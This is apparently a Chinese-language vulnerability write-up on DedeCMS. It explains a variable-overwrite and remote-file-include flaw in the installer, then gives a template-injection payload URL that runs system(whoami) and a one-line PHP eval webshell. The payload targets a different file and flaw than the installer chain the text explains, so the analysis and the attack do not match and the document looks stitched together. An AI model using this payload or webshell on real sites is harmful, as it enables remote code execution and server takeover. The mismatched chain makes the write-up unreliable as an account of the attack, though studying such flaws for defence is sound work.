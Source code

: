 该漏洞出现的原因主要是在install的index.php文件中
该段代码存在变量覆盖，表达的是依次对_GET,_POST,_COOKIE进行**键值分离**

~~~php
foreach(Array('_GET','_POST','_COOKIE') as $_request)
{
    foreach($$_request as $_k => $_v) ${$_k} = RunMagicQuotes($_v);
}
~~~

文件包含，使用**require_once函数**包含了…/data/admin/config_update.php文件，在被包含的文件中定义了变量$updataHost

~~~php
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = UPDATEHOST."dedecms/demodata.{$s_lang}.txt";
	$sql_content = file_get_contents($rmurl);
	$fp = fopen(INSTALL_DEMO_NAME,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
~~~

远程文件包含，结合前面的变量覆盖就可以控制包含的内容

~~~php
//更新服务器，如果有变动，请到 http://bbs.dedecms.com 查询

define('UPDATEHOST', 'http://updatenew.dedecms.com/base-v57/');
define('LINKHOST', 'http://flink.dedecms.com/server_url.php');
~~~

可以覆盖insLockfile变量

~~~php
if(file_exists(INSLOCKFILE))
{
    exit(" 程序已运行安装，如果你确定要重新安装，请先从FTP中删除 install/install_lock.txt！");
}
~~~

构造payload

~~~php
http://localhost/default/dede/tag_test_action.php?url=a&token=&partcode={dede:field%20name=%27source%27%20runphp=%27yes%27}system(whoami);{/dede:field}
~~~

准备一句话木马：新建一个.PHP文件，写入如下语句

~~~php
<?php @eval($_POST['cmd']); ?>
~~~
